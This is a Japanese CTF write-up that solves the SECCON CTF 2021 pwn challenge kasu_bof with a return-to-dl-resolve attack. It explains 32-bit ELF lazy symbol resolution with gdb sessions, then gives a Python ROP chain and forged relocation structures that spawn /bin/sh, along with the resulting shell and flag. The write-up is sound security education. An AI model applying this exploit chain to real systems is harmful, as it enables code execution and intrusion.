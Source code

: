 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~
      
**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
- x86
- SSP (Stack Smashing Protection) 無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~char~ 型の配列 ~buf~ のサイズが ~0x80~ byte 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで配列 ~buf~ に任意の文字を入力可能

  
このことから、配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる。


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため、
スタックバッファオーバフローを利用して、 ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである。


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスが解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、偽の ~Elf32_Rel~ を指すように指定
   3. ~.plt~ の先頭にジャンプし、偽の構造体を元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、pltセクションからアドレス解決の流れを説明し、如何にして偽の構造体を作成すればよいかについて説明する。

*** ~main~ から ~gets~ が呼び出される全体の流れ
    問題のプログラムをディスアセンブルし、どのようにして ~gets~ が呼び出されているのか確認してみる。
    #+begin_src
08049180 <main>:
 8049180:       55                      push   ebp
 8049181:       89 e5                   mov    ebp,esp
 8049183:       81 ec 98 00 00 00       sub    esp,0x98
 8049189:       8d 85 7c ff ff ff       lea    eax,[ebp-0x84]
 804918f:       c7 45 fc 00 00 00 00    mov    DWORD PTR [ebp-0x4],0x0
 8049196:       89 04 24                mov    DWORD PTR [esp],eax
 8049199:       e8 a2 fe ff ff          call   8049040 <gets@plt>
 804919e:       31 c9                   xor    ecx,ecx
 80491a0:       89 85 78 ff ff ff       mov    DWORD PTR [ebp-0x88],eax
 80491a6:       89 c8                   mov    eax,ecx
 80491a8:       81 c4 98 00 00 00       add    esp,0x98
 80491ae:       5d                      pop    ebp
 80491af:       c3                      ret    
    #+end_src
    ディスアセンブルした ~main~ を見てみると、 ~0x8049199~ のアドレスにおいて、 ~gets@plt~ である ~0x8049040~ にジャンプしている。 ~gets@plt~ は、 ~.plt~ セクションに存在するため、 ~.plt~ セクションもディスアセンブルしてみる。
    
    #+begin_src
08049030 <.plt>:
 8049030:       ff 35 04 c0 04 08       push   DWORD PTR ds:0x804c004
 8049036:       ff 25 08 c0 04 08       jmp    DWORD PTR ds:0x804c008
 804903c:       00 00                   add    BYTE PTR [eax],al
        ...

08049040 <gets@plt>:
 8049040:       ff 25 0c c0 04 08       jmp    DWORD PTR ds:0x804c00c
 8049046:       68 00 00 00 00          push   0x0
 804904b:       e9 e0 ff ff ff          jmp    8049030 <.plt>

08049050 <__libc_start_main@plt>:
 8049050:       ff 25 10 c0 04 08       jmp    DWORD PTR ds:0x804c010
 8049056:       68 08 00 00 00          push   0x8
 804905b:       e9 d0 ff ff ff          jmp    8049030 <.plt>
    #+end_src
    先程呼ばれた ~gets@plt~ を確認してみると、 まず ~jmp    DWORD PTR ds:0x804c00c~ で ~0x804c00c~ 番地に格納されたアドレスへジャンプしている。この ~0x804c00c~ のアドレスは、GOTと呼ばれる領域にあり、最終的に解決された ~gets~ のアドレスが格納される。

    
    ここで、checksecの結果から、配布された実行ファイルは *Partial RELRO* であることがわかっている。
    *Partial RELRO* は、共有ライブラリが遅延バインドされることを表しており、1回目のライブラリ関数の呼び出しの際に、共有ライブラリのアドレスを解決し、解決したアドレスをGOTへ格納する。
    このため、2回目以降のライブラリ関数の呼び出しは、GOTに格納された解決済のアドレスへジャンプすることで可能となる。

    
    # しかし、問題を見てみると、 ~gets@plt~ は1回目の呼び出しであるため、まだGOTには解決されたアドレスは格納されていない。
    そこで、1回目の ~gets@plt~ の呼び出し時に、GOTには何が格納されているのか確認してみる。

    以下は、 ~gets@plt~ を呼び出す前のGOTの状態。
    #+begin_src
gef➤  got

GOT protection: Partial RelRO | GOT functions: 2
 
[0x804c00c] gets@GLIBC_2.0  →  0x8049046
[0x804c010] __libc_start_main@GLIBC_2.0  →  0xf7de1de0
    #+end_src
    GOTを確認すると、次の命令のアドレス ( ~0x8049046~ )がGOTに格納されていることがわかる。
    このため、引き続き ~0x8049046~ からの命令読んでいく。

    
    次の命令 ~push   0x0~ では、スタックに ~0x0~ を積み、その後 ~jmp    8049030 <.plt>~ で ~.plt~ セクションの先頭にジャンプしている。

    ~.plt~ の先頭の命令は、 ~push   DWORD PTR ds:0x804c004~ となっており、 ~0x804c004~ に格納されている値をスタックに積む。
    そして、次の命令 ~jmp    DWORD PTR ds:0x804c008~ で ~0x804c008~ に格納されているアドレスへジャンプする。

    ここで、 ~0x804c004~ および ~0x804c008~ 番地には何が格納されているのか調べてみる。    
    #+begin_src
gef➤  hexdump dword 0x804c004
0x0804c004│+0x0000   <_GLOBAL_OFFSET_TABLE_+0004> 0xf7ffd990   
0x0804c008│+0x0004   <_GLOBAL_OFFSET_TABLE_+0008> 0xf7fe7ac0   
    #+end_src
    すると、これらのアドレスはGOT先頭付近のアドレスであり、それぞれ ~0xf7ffd990~ と ~0xf7fe7ac0~ の値が格納されていることがわかる。

    このため、 ~.plt~ の先頭の命令では、スタックに ~0xf7ffd990~ を積み、 ~0xf7fe7ac0~ 番地へジャンプしている。    
    そして、 ~0xf7fe7ac0~ へジャンプ後、 ~gets~ のアドレスがGOTへ格納され、 ~gets~ が実行される。


    以上が ~main~ から ~gets~ が実行されるまでの流れであり、 ~return to dl resolve~ をするために必要となる ~.plt~ セクション以降の流れについて以降では詳しく見ていく。
    
*** ~.plt~ セクションからアドレス解決の流れ
    さて、 ~main~ から ~gets~ が呼び出される全体像が掴めたところで、最後にジャンプしたアドレス ~0xf7fe7ac0~ から先を追ってみる。
    ジャンプ先の  ~0xf7fe7ac0~ が ~_dl_runtime_resolve~ となっており、この関数により ~gets~ のアドレスが解決される。
     ~_dl_runtime_resolve~ は引数として ~link_map~ 構造体と、 後述する ~Elf32_Rel~ 構造体へのオフセットを示す ~reloc_arg~ という2つの値を取る。

    そこで、ここから先では、 ~_dl_runtime_resolve~ を呼び出す際に スタックに積まれた ~0xf7ffd990~ を ~_dl_runtime_resolve~ の第一引数である ~link_map~ 構造体のアドレス、 ~0x0~ を第二引数である ~reloc_arg~ として扱う。

   それでは、次に引数として渡された ~link_map~ 構造体がどのような役割を担っているのかを調査する。
    
    # ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。
    
    # そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


#     参考
#     #+begin_example    
#         .rel.plt                         .dynsym                                           .dynstr                                    
#             |                                |                                                 |
#             |                                |                                                 |
# reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
#             |                                |                                                 |
#             +-->|-----------+----------|     |                                                 |
#                 | Elf32_Rel | r_offset |     |                                                 |
#                 |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
#                 |-----------+----------|     |                                                 |
#                                              |                                                 |
#                                              +->|-----------+---------------------------|      |
#                                                 | Elf32_Sym | st_name                   |------+   st_name + .dynstr
#                                                 |           | st_value                  |      |
#                                                 |           | st_size                   |      |
#                                                 |           | st_info st_other st_shndx |      |
#                                                 |-----------+---------------------------|      |
#                                                                                                |
#                                                                                                +-->|-----------+----------|
#                                                                                                    | symbol    |  'gets'  |
#                                                                                                    |-----------+----------|
#     #+end_example
    
**** ~link_map~ 構造体
   ~link_map~ 構造体は、ELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス、再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。
   実際の構造を知るために、定義を参照してみる。
   - https://elixir.bootlin.com/glibc/glibc-2.36/source/include/link.h#L95
     #+begin_src c
       struct link_map
       {
	 /* These first few members are part of the protocol with the debugger.
	    This is the same format used in SVR4.  */

	 ElfW(Addr) l_addr;		/* Difference between the address in the ELF
					  file and the addresses in memory.  */
	 char *l_name;		/* Absolute file name object was found in.  */
	 ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
	 struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
	 ...

	 ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
		  + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
	 ...
       }
     #+end_src
     - ソースコード中の ~ElfW(hoge)~ のマクロは、 ~Elf32_hoge~ と展開される。
       - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/link.h#L28

   以下の例の場合、 ~link_map~ 構造体のアドレス ~0x804c004~ と ~gets~ の ~reloc_arg~ ~0x0~ をスタックにプッシュしている。
      #+begin_src
   gef➤  x/10i $eip
   => 0x8049030:   push   DWORD PTR ds:0x804c004
      0x8049036:   jmp    DWORD PTR ds:0x804c008
      0x804903c:   add    BYTE PTR [eax],al
      0x804903e:   add    BYTE PTR [eax],al
      0x8049040 <gets@plt>:        jmp    DWORD PTR ds:0x804c00c
      0x8049046 <gets@plt+6>:      push   0x0
      0x804904b <gets@plt+11>:     jmp    0x8049030
      0x8049050 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804c010
      0x8049056 <__libc_start_main@plt+6>: push   0x8
      0x804905b <__libc_start_main@plt+11>:        jmp    0x8049030
      #+end_src
   

   以下のサイトを参考に、gdbで、ELFの構造体を読み込めるようにする。
   - https://inaz2.hatenablog.com/entry/2014/07/21/124857
     - gdbに ~link.h~ および ~elf.h~ のシンボル情報を読み込み
       #+begin_src 
	 gcc -g -fno-eliminate-unused-debug-types -x c -m32 -c /usr/include/link.h -o link.o
       #+end_src
       今回はx86のELFを対象としているため ~-m32~ オプションを指定

   特定した ~link_map~ 構造体のアドレス ~0xf7ffd990~ の中身を表示してみる。
   #+begin_src 
	 gef➤  add-symbol-file link.o 0
	 add symbol table from file "link.o" at
		 .text_addr = 0x0
	 Reading symbols from link.o...
	 gef➤  set $l = (struct link_map *) 0xf7ffd990
	 gef➤  print *$l
	 $1 = {
	   l_addr = 0x0,
	   l_name = 0xf7ffdc84 "",
	   l_ld = 0x804bf14,
	   l_next = 0xf7ffdc90,
	   l_prev = 0x0
	 }
   #+end_src

**** ~.dynamic~ セクション
  ~.dynamic~ セクションのアドレスは、 ~link_map~ 構造体の ~l_ld~ に格納されるため、
  ~.dynamic~ セクションのアドレスは ~0x804bf14~ であるとわかる。
   
  ~.dynamic~ セクションは、 ~ELF_Dyn~ 構造体のエントリを ~d_tag~ の種類の数保持しており、この中に ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ などのアドレスが格納されている。
    - ELF32_Dyn 構造体
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L840
	#+begin_src c
	  typedef struct
	  {
	    Elf32_Sword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf32_Word d_val;			/* Integer value */
		Elf32_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf32_Dyn;
	#+end_src
	 
    - d_tagの定義
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
	#+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	#+end_src
	 
    また、このとき ~.dynamic~ セクションは、 ~d_tag~ の順番に並んでいる訳ではないことに注意。
    - 以下の例では、 ~DT_STRTAB, DT_SYMTAB~ は8、9番目のエントリ、 ~DT_JMPREL, DT_REL~ は16、17番目のエントリに配置
      #+begin_src 
      0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
      0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
      ...
      0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
      0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
      0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
      0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
      ...
      0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
      0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
      0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
      0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
      ...
      #+end_src
       
**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは、 ~ELF32_Rel~ 構造体の配列となっている。
    - ELF32_Rel 構造体
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L634
	#+begin_src c
	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	  } Elf32_Rel;
      #+end_src

     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
      - ~reloc_arg~ が ~.rel.plt~ のインデックス
	#+begin_src 
	  gef➤  ser $reloc_arg = 0x0
	  gef➤  set $reloc = &((Elf32_Rel *)($l.l_ld[16].d_un.d_ptr))[$reloc_arg]
	  gef➤  print *$reloc
	  $10 = {
	      r_offset = 0x804c00c,
	      r_info = 0x107
	  }

	  gef➤  dd 0x080482d8
	  0x080482d8│+0x0000   0x0804c00c // getsのGOTエントリ (reloc_arg = 0x0)
	  0x080482dc│+0x0004   0x00000107
	  0x080482e0│+0x0008   0x0804c010 // __libc_start_mainのGOTエントリ (reloc_arg = 0x1)
	  0x080482e4│+0x000c   0x00000307
	  0x080482e8│+0x0010   0x00000000
	  0x080482ec│+0x0014   0x00000000
      #+end_src
	 
    ~r_info~ は、シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより、 ~dynsym~ のインデックスを取得することができる。
    - ~r_info~ の定義
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))

	#define ELF64_R_SYM(i)			((i) >> 32)
	#define ELF64_R_TYPE(i)		((i) & 0xffffffff)
	#define ELF64_R_INFO(sym,type)		((((Elf64_Xword) (sym)) << 32) + (type))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは、 ~Elf32_Sym~ 構造体の配列となっている。
      - ELF32_Sym 構造体
	- https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L519
	  #+begin_src c
	    typedef struct
	    {
	      Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	      Elf32_Addr	st_value;		/* Symbol value */
	      Elf32_Word	st_size;		/* Symbol size */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf32_Section st_shndx;		/* Section index */
	    } Elf32_Sym;
          #+end_src
	  - ~st_name~ は、実際にシンボルが置かれている ~.dynstr~ セクションのオフセット
    ~r_info~ からインデックスを計算し、 ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
      gef➤  set $symtab = (Elf32_Sym *)($l.l_ld[9].d_un.d_ptr)
      gef➤  set $sym = $symtab[$reloc.r_info>>8]
      gef➤  print $sym
      $7 = {
	st_name = 0x1a,
	st_value = 0x0,
	st_size = 0x0,
	st_info = 0x12,
	st_other = 0x0,
	st_shndx = 0x0
      }
    #+end_src
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが、シンボルを指すアドレスとなっている。
    - 以下の例では、 ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し、その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
      gef➤  set $strtab = (char*)($l.l_ld[8].d_un.d_ptr)
      gef➤  set $undef_name = $strtab + $sym.st_name
      gef➤  print $undef_name
      $8 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    | 'system' |
                                                                                                   |-----------+----------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = Elf32_Rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常は ~.got~ の対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から ~system~ のシンボルを配置したアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、グローバル関数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には、以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、 ~system~ のシンボル、および ~/bin/sh~ の文字列が格納する。    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき、 ~Elf32_Sym~ 構造体は、 ~dynsym~ セクションのアドレスから、 ~0x10~ byteの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)、
    必要なbyte数だけalignしている。

    Solverを書くときは、事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき、ROPで ~gets~ の引数として指定しておき、ROPチェインが発火後に、それぞれの構造体やシンボルを書き込んでいく。
    #+begin_src python
      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考のセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~/bin/sh~ を取れるように、 ~/bin/sh~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg
     #+end_src

*** Solver
    https://github.com/Team-Enu/writeup/tree/main/seccon-ctf-2022/kasu_bof

**** 実行結果
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 pp.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) pp.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル pp.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル pp.57
    - Elf_Rel構造体について

- gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
  - https://inaz2.hatenablog.com/entry/2014/07/21/124857


- ret2dl_resolve Sections 關係表
  - https://hackmd.io/@LJP/BkJmAqXEI
  - ELfのマクロについて


created 2022/11/11\\
updated 2022/11/25
